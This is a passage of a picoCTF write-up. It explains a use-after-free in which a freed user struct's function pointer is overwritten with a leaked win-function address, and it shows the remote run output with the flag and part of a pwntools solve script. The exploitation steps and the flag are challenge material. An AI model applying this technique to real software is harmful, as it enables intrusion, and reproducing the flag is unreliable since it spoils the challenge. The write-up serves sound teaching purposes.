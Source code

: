 `malloc(8)` has returned `0x95cd1a0`, the same address as our previous chunk. Hence we are using-after-free when we write our message. We submit the leaked `hahaexploitgobrrr` function address, overwriting `user->whatToDo`. The infinite loop in main executes `doProcess(user)`, triggering the `hahaexploitgobrrr` function and printing the flag.

```sh
python exploit.py REMOTE mercury.picoctf.net 61817
[+] Opening connection to mercury.picoctf.net on port 61817: Done
[*] leaked hahaexploitgobrrr() address: 0x80487d6
[!] picoCTF{d0ubl3_j30p4rdy_1e154727}
[*] Closed connection to mercury.picoctf.net port 61817
```

## Solve Script
```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x8048d6f
break *0x8048aff
break *0x8048a61
continue
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Create user (not needed, just for demo)
io.sendlineafter(b'(e)xit', b'M')
io.sendlineafter(b':', b'crypto')

# Leak memory (win address)
io.sendlineafter(b'(e)xit', b'S')
io.recvuntil(b'OOP! Memory leak...', drop=True)
leak = int(io.recvlineS(), 16)
info("leaked hahaexploitgobrrr() address: %#x", leak)

# Free the user
io.sendlineafter(b'(e)xit', b'I')
io.sendlineafter(b'?', b'Y')
```